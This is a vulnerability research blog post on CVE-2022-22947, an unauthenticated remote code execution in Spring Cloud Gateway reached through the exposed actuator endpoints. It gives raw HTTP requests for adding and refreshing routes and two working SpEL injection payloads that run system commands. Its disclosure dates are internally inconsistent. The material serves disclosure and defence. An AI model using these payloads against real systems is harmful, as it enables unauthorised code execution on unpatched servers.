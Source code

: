```yaml
---
layout: post
title:  "[CVE-2022-22947] Spring Gateway Unauth RCE"
date:   2022-01-18 21:11:53 +0700
author: hoangnx99, rskvp93 (from Viettel Cyber Security)
categories: jekyll update
---
```


<i> In this blog, we will introduce our new 0-day vulnerability of Spring Cloud Gateway that we had just found out in the first of 2021. This vulnerability was reported to `VMWARE` and they had just been released the patch in the new version which released on 01/03/2021.
</i>

<b>Note: </b>
<i>Update in 01/03/2021: 
- 16/01/2021: We reported to VMware and being assigned for triage after that. 
- 16/02/2021: Ask for any update and get my first 0day <b>DUPLICATE</b>
![](/assets/spring-gateway/duplicate.png)
- 01/03/2021: VMware release new version, duplicated guy also release the new blog about this.
![](/assets/spring-gateway/dup-date.png)
![](/assets/spring-gateway/my-date.png)

Seem that we reported later than him 1day. T.T

# I. Inspiration
The vulnerability was inspired by the blog `https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/` which was released on 20th December 2021. From this blog, the author ends with the SSRF by designing with the exposed `actuator` endpoint. After reading the docs of `Spring Cloud Gateway`, @rskvp93 - my mentor, comes with the idea of using `global filter` to gain the Remote Code Execution through EL Injection. 

# II. Detail Analysis:
## 1. Functional Design:
![](/assets/spring-gateway/sping_cloud_gateway_diagram.png)

As the above picture, Sping Cloud Gateway is a tool that provides out-of-the-box routing mechanisms often used in microservices applications as a way of hiding multiple services behind a single facade. To routing requests, the Spring Cloud Gateway forwards requests to `Gateway Handler Mapping` which route will be transferred to. 

Moreover, `Spring Cloud Gateway` also provides some built-in <b>`Gateway Filter`</b> which allow the modification of the incoming HTTP request or outgoing HTTP response in some manner. 

## 2. Gateway Filter:
There is a list of public endpoint `/actuator` that can help us to construct a route with any filter. 
![](/assets/spring-gateway/actuator-gateway-endpoints.png)

As the analysis of the above blog, we will summary some promising endpoints:
### 2.1. List all route:

```
GET /actuator/gateway/routes HTTP/1.1
Host: 192.168.137.120:9000
Connection: close


```

![List Route](/assets/spring-gateway/list-routes.png)

### 2.2. Add a route:

```
POST /actuator/gateway/routes/test HTTP/1.1
Host: 192.168.137.120:9000
Connection: close
Content-Type: application/json
Content-Length: 334

{
  "predicates": [
    {
      "name": "Path",
      "args": {
        "_genkey_0": "/abc/**"
      }
    }
  ],
  "filters": [
    {
      "name": "AddRequestParameter",
      "args": {
        "_genkey_0": "X-Custom",
        "_genkey_1": "Test"
      }
    }
  ],
  "uri": "https://httpbin.org",
  "order": 0
}
```

![List Route](/assets/spring-gateway/new-route.png)
### 2.3. Refresh route:
After adding a route, all the new route need a subsequent request to make the application recognize.

```
GET /actuator/gateway/routes HTTP/1.1
Host: 192.168.137.120:9000
Connection: close


```

![Refresh Route](/assets/spring-gateway/refresh.png)

At now, a new route had added and the route can be accessed at `abc` endpoint with the new response header `X-Custom: Test ` which is added by the filter.

![Result Route](/assets/spring-gateway/result-route.png)
 
In the previous chapter, we introduce Spring Cloud Gateway functionality, its filter, and how to construct a route through `/actuator` endpoint.  
## 3. Digging Deeper Into Defining a Route:

After exploring the Spring Gateway filter through its docs, we were attracted to a part about using SpEL Expression to config the filter. This part of the document makes us dig into how to construct a route and find a way to do EL Injection. 
![Result Route](/assets/spring-gateway/EL.png)

<i> Let see what happen when adding a new route ? </i>

A route after adding with `/actuator` endpoint will be a push to the routing cache. To Publish to the route, a `refresh` request must be made and all the route list arrays in the cache will be popped and converted one by one to a `Route`. We can define the `filter` and `predicate` as this example:

```
"filters": [
    {
      "name": "AddResponseHeader",  #Name of the filter
      "args": {
        "_genkey_0": "X-Custom",    #arg1: headername 
        "_genkey_1": "${abcc}"      #arg2: headervalue
      }
    }
  ]
```

![filter](/assets/spring-gateway/filter-definition.png) 
![filter](/assets/spring-gateway/filter.png) 

With every argument which passes into, the value will be considered which is spel expression by checking if the string starts with `#{` and ends with `}`. 
![filter](/assets/spring-gateway/getvalue.png)
![filter](/assets/spring-gateway/elinjection.png)

Therefore, This code is vulnerable to EL Injection and leads to RCE. There are many ways that you can exploit this vulnerability with any payload of EL Injection which can be found on the internet. However, to construct a payload that is available in as many cases as possible, we choose the payload that can reflect the command output to the response.

```
#{new java.util.Scanner(''.getClass().forName('java.lang.Runtime').getRuntime().exec('whoami').getInputStream()).useDelimiter('\\A').next().replace('\n',' ')}
```

![filter](/assets/spring-gateway/result1.png)
![filter](/assets/spring-gateway/result2.png)

We had tested above payload on Java 11 but in newer version (java 17), the payload for EL Injection is quite different and you can try this poc:

```
#{new java.util.Scanner(T(java.lang.Process).getMethod('getInputStream').invoke(T(java.lang.Runtime).getRuntime().exec(new String[]{'ls'}))).useDelimiter('\A').next().replace('\n',' ')}
```

# III. Conclusion:
To sum up, our research could leverage SSRF to RCE through EL Injection. However, this vulnerability can migrate easily by limiting the access to `/actuator` endpoint. 

# IV. Credit:
nxhoang99 and rskvp93 from VcsLab of Viettel Cyber Security.
